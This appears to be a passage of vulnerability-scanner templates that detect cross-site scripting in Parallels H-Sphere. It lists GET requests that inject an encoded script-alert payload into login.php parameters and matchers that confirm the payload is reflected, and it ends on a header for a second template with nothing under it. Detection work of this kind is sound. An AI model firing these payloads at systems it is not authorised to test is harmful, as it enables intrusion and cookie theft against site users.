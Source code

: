 **Type - word**

- part - header
- words
  1. text/html

---

# Parallels H-Sphere - Cross-Site Scripting

## Description

- Parallels H-Sphere contains multiple cross-site scripting vulnerabilities because it fails to sufficiently sanitize user-supplied data. An attacker may leverage these issues to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and to launch other attacks.

- severity - high
- tags - hsphere,xss,edb,parallels

## Requests

- Method - GET

### URL

- {{BaseURL}}/webshell4/login.php?err=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
- {{BaseURL}}/webshell4/login.php?login=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. value="\">\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Mida eFramework - Cross-Site Scripting

## Description
